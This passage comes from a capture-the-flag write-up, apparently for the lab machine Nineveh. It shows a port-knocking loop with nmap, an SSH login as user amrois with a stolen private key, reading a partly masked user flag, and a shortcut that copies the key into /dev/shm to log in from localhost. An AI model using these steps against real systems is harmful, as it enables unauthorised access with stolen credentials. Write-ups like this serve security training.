 

    root@kali# for i in 571 290 911; do
    > nmap -Pn --host-timeout 100 --max-retries 0 -p $i 10.10.10.43 >/dev/null
    > done; ssh -i ~/keys/id_rsa_nineveh_amrois amrois@10.10.10.43
    Ubuntu 16.04.2 LTS
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage

    133 packages can be updated.
    66 updates are security updates.
                                                                                                                                                                                                            
                                                                                                                                                                                                            
    You have mail.                                                                                                                                                                                          
    Last login: Wed Apr 22 05:34:21 2020 from 10.10.14.24                                                                                                                                                    
    amrois@nineveh:~$



It loops over the three ports, and for each scans Nineveh with `nmap`
using a short timeout and no retries, directing the output to
`/dev/null`. Then it connects with SSH.

I can also grab `user.txt`:



    amrois@nineveh:~$ cat user.txt 
    82a864f9************************



### Shortcut - SSH from localhost

On first solving, I didn't look for `knockd`, but rather, I just made a
copy of the private key in `/dev/shm` on Nineveh.



    www-data@nineveh:/dev/shm$ chmod 600 .id_rsa
    www-data@nineveh:/dev/shm$ ssh -i .id_rsa amrois@10.10.10.43
    Could not create directory '/var/www/.ssh'. 
    The authenticity of host '10.10.10.43 (10.10.10.43)' can't be established.
    ECDSA key fingerprint is SHA256:aWXPsULnr55BcRUl/zX0n4gfJy5fg29KkuvnADFyMvk.
    Are you sure you want to continue connecting (yes/no)? yes
    Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
    Ubuntu 16.04.2 LTS
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage

    133 packages can be updated.
    66 updates are security updates.


    You have mail.
    Last login: Mon Jul  3 00:19:59 2017 from 192.168.0.14
    amrois@nineveh:~$
